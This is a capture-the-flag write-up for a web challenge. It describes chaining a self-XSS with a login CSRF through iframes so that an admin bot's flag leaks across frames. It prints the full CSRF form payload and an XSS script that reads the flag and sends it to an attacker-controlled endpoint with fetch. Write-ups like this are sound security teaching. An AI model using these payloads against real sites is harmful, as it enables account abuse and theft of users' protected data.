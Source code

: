 ## Tech Support
This was a **web** challenge with a website where we could seek tech support.  
The flag is located at */flag* but it's accessible only from an **admin account**.  
The first thing we tried was using a simple XSS payload when setting our address on the page found at */me*.  
<img src="me.png" alt="XSS on /me"/>
It worked, **we won**! Right?  
Not really, there's no way to make the admin-bot visit this page. We keep searching...  
<br>
When we request the chat support we have to state a **reason** before entering the captcha.  
The chat itself isn't really useful, but the *reason* stated before is rendered on the page on an invisible iframe!  
<img src="invisible_iframe.png" alt="Invisible iframe in the chat"/>
The bot will visit the page in the iframe, and our payloads will work but... It's in a **different domain** :(  
The **Same-Origin Policy (SOP)** prevents the code running in that page from accessing the flag in the other domain (where the flag is stored). Let's try and find a way in.  
<br>
### Failed attempts
At first I tried an approach where I would try and set a **new** */me* (abusing the fact that the CSRF token was not checked) in the bot account and redirect it towards it. The XSS in */me* would be used in an iframe to **steal** the flag, this is better described later in the writeup.  
This approach didn't work, probably because the bot was disallowed from having a */me* endpoint.  
<br>
After that I tried to log in the admin-bot in my account and steal the flag like I tried before... I got stuck for more time than I would like to admit because I was simply loading */flag* through **my** account 🤦 (The cookies are **shared** between the parent and the iframe)  
Then a friend kindly helped me and made me realise that what I was doing made no sense.  
<br>
### CSRF+XSS done right
After the pointers given to me we created a payload with two iframes.  
One iframe contained the */flag* endpoint, the other would log in **my** account and visit the */me* endpoint triggering my **Javascript payload**.  
The payload would then take the flag from the other iframe (using [iframe-to-iframe](https://www.dyn-web.com/tutorials/iframes/refs/) interaction) given that */me* and */flag* share the same **origin**.  
Between this actions there has to be some waiting period for the resources to load, or bad things could happen because of shared cookie jars.
<br>
The CSRF code we uploaded on [Beeceptor](https://beeceptor.com/) is the following:  
```
<iframe id="flag_frame" src="https://typeselfsub.web.ctfcompetition.com/flag"></iframe>

        <form id="evil" action="https://typeselfsub.web.ctfcompetition.com/login" target="me_frame" method="POST">
            <input type="text" id="username" name="username" value="sparrrgh">
            <input id="password" name="password" value="REDACTED">
            <input type="hidden" name="csrf" value="">
        </form>

        <script>
            setTimeout(function(){
            	//Log in my account
                evil.submit();
        
                setTimeout(function(){
                    //Visit my page containing the XSS payload
                    me_frame.src = 'https://typeselfsub.web.ctfcompetition.com/me';
                }, 3000);
            }, 3000);
        </script>
        
        <iframe name="me_frame" id="me_frame"></iframe>
```
While the XSS payload used in the */me* page is simply taking the flag from the document and sending it to an endpoint we control  
```
    <script>
        let flagd = parent.frames[0].window.document.getElementById('flag').innerText;
        fetch('https://myendpoint.com?flag='.concat(flagd));
    </script>
```
Notice how `frames[0]` is used, that's because accessing the parent document in other ways would break **SOP** rules, since the origin in the iframe and the one in the page are different!  
<br>
The last thing needed was to embed an iframe (*another one*) as a *reason* in the request for chat containing the page with our **CSRF payload** (on *Beeceptor*) thus starting the chain of payloads!  
And there it was, the flag!  
`CTF{self-xss?-that-isn't-a-problem-right...}`
<img src="flag.png" alt="Flag!"/>
